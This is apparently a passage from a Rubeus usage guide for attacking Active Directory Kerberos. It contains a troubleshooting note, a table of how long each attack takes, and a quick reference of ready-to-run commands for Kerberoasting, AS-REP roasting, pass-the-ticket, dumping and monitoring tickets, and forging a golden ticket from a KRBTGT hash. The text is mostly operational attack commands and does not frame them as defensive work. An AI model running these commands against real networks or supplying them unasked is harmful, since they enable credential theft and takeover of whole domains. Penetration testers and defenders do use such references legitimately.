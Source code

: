 
### Error: Access Denied (for dump/triage)

**Cause:** Insufficient privileges

**Fix:**
```powershell
# dump/triage from other user's session requires elevation
# Option 1: Elevate current session
# Option 2: Only triage/dump your own session

# Check current privileges
whoami /priv
```

---

## Time Expectations

| Operation | Expected Time | Notes |
|-----------|---------------|-------|
| Kerberoast (< 50 SPNs) | 30 seconds | Fast |
| Kerberoast (> 100 SPNs) | 1-2 minutes | Slower |
| AS-REP roast | 10-30 seconds | Usually few vulnerable users |
| Pass-the-Ticket | 5 seconds | Very fast |
| Triage | 2 seconds | Instant |
| Dump (all tickets) | 10 seconds | Fast |
| Monitor | Continuous | Hours (waiting for auth) |
| Golden ticket creation | 10 seconds | Fast |
| Silver ticket creation | 10 seconds | Fast |

---

## Quick Command Reference

```powershell
# Kerberoasting
Rubeus.exe kerberoast /outfile:hashes.txt
Rubeus.exe kerberoast /user:sqlservice

# AS-REP roasting
Rubeus.exe asreproast /outfile:asrep.txt
Rubeus.exe asreproast /user:vulnerable-user

# Pass-the-Ticket
Rubeus.exe ptt /ticket:ticket.kirbi

# View tickets
Rubeus.exe triage

# Dump tickets (requires elevation)
Rubeus.exe dump /outfile:tickets

# Monitor for tickets
Rubeus.exe monitor /interval:5

# Golden ticket
Rubeus.exe golden /rc4:KRBTGT_HASH /domain:corp.local /sid:S-1-5-21-XXX /user:Administrator /ptt

```